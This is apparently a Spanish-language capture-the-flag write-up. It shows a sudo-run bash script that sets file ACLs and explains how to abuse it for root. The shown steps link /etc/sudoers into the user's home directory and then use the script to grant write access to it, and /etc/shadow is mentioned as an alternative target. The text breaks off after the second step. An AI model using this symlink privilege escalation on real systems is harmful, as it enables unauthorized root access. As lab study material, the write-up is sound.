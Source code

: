 ## [](#header-2)acl.sh

El script permite al usuario configurar la lista de control de acceso a archivos (FACL) para un archivo:


```sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

Para escalar a root usando el script /opt/acl.sh, puedes aprovechar un symlink para modificar un archivo crítico del sistema que te otorgue permisos de sudo o directamente root shell. Vamos a usar /etc/sudoers, aunque podría usarse /etc/shadow si prefieres crackear la contraseña, este método es más directo.


# [](#header-1)🛠 Paso a paso

1. Crea un symlink en tu home que apunte al archivo /etc/sudoers:


```
ln -s /etc/sudoers /home/mtz/sudoers_link
```

2. Usa el script ACL para darte permiso de escritura sobre ese symlink (que en realidad es /etc/sudoers):


```
sudo /opt/acl.sh mtz rw /home/mtz/sudoers_link
```
